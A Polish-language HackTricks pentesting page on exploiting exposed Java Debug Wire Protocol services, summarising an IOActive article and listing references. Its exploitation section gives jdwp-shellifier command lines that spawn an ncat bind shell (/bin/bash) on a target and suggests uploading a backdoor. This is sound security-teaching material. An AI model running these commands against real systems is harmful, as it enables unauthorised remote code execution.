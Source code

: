# Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Natychmiastowo dostępna konfiguracja do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z ponad 20 narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, uzyskiwanie dostępu i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Eksploatacja

Eksploatacja JDWP opiera się na **braku uwierzytelniania i szyfrowania protokołu**. Zwykle znajduje się na **porcie 8000**, ale możliwe są inne porty. Początkowe połączenie nawiązywane jest przez wysłanie "JDWP-Handshake" do docelowego portu. Jeśli usługa JDWP jest aktywna, odpowiada tym samym ciągiem, potwierdzając swoją obecność. Ten handshake działa jako metoda identyfikacji do rozpoznawania usług JDWP w sieci.

Jeśli chodzi o identyfikację procesów, wyszukiwanie ciągu "jdwk" w procesach Java może wskazywać na aktywną sesję JDWP.

Narzędziem, które warto użyć, jest [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Możesz go używać z różnymi parametrami:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
Zauważyłem, że użycie `--break-on 'java.lang.String.indexOf'` sprawia, że exploit jest **stabilniejszy**. A jeśli masz możliwość przesłania backdoora na hosta i jego wykonania zamiast wykonywania polecenia, exploit będzie jeszcze bardziej stabilny.

## Więcej szczegółów

**To jest podsumowanie [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Sprawdź to, aby uzyskać więcej szczegółów.

1. **Przegląd JDWP**:
- To protokół binarny oparty na pakietach, głównie synchroniczny.
- Brak uwierzytelniania i szyfrowania, co czyni go podatnym na ataki, gdy jest narażony na wrogie sieci.

2. **Uścisk dłoni JDWP**:
- Używany jest prosty proces uścisku dłoni do rozpoczęcia komunikacji. Wymieniana jest 14-znakowa ciąg ASCII „JDWP-Handshake” między Debuggerem (klientem) a Debuggee (serwerem).

3. **Komunikacja JDWP**:
- Wiadomości mają prostą strukturę z polami takimi jak Długość, Id, Flaga i CommandSet.
- Wartości CommandSet mieszczą się w zakresie od 0x40 do 0x80, reprezentując różne akcje i zdarzenia.

4. **Eksploatacja**:
- JDWP pozwala na ładowanie i wywoływanie dowolnych klas i bajtów kodu, co stwarza zagrożenia dla bezpieczeństwa.
- Artykuł szczegółowo opisuje proces eksploatacji w pięciu krokach, obejmujących pobieranie odniesień do Java Runtime, ustawianie punktów przerwania i wywoływanie metod.

5. **Eksploatacja w rzeczywistości**:
- Pomimo potencjalnych zabezpieczeń zapory, usługi JDWP są wykrywalne i podatne na ataki w rzeczywistych scenariuszach, co zostało udowodnione przez wyszukiwania na platformach takich jak ShodanHQ i GitHub.
- Skrypt exploita był testowany na różnych wersjach JDK i jest niezależny od platformy, oferując niezawodne zdalne wykonanie kodu (RCE).

6. **Implikacje bezpieczeństwa**:
- Obecność otwartych usług JDWP w internecie podkreśla potrzebę regularnych przeglądów bezpieczeństwa, wyłączania funkcji debugowania w produkcji oraz odpowiedniej konfiguracji zapory.

### **Referencje:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Natychmiast dostępne ustawienie do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z 20+ narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, otwieranie powłok i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
